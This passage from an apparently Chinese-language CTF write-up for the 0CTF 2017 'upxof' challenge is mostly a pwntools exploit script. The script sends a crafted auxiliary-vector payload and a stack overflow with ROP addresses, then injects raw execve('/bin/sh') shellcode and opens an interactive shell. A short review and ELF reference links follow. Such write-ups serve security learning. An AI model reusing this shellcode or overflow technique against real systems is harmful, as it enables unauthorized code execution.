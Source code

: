 ```python
s+=p64(0xb)+p64(0x3e8)+p64(0xc)+p64(0x3e8)+p64(0xd)+p64(0x3e8)+p64(0xe)+p64(0x3e8)+p64(0x17)
s+=p64(0)+p64(0x19)
s+=p64(0x600100)+p64(0x1f)+p64(0x600100)+p64(0xf)+p64(0x600100)
p.sendline("12345678"+s)
addr=0x00602000-0x200
p.sendlineafter("let's go:","\x00"*0x408+p64(0)+p64(addr+0x80-0x8)+p64(rdi)+p64(addr)+p64(0x400763)+p64(0x400763)+p64(0x400763))
context.arch='amd64'
sleep(1)
shellcode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
shellcode=shellcode.ljust(0x80,'\x00')+p64(addr)
p.sendline(shellcode)
p.interactive()


```

# review.
调试是个好东西....没了调试犯的傻逼错误都找不出来...
不知道这个程序是咋弄出来的.

[1]: https://lwn.net/Articles/519085/
[3]: http://articles.manugarg.com/aboutelfauxiliaryvectors.html
[4]: https://code.woboq.org/userspace/glibc/elf/elf.h.html
[9]: https://github.com/n132/Watermalon/blob/master/0CTF_2017/upxof/upxof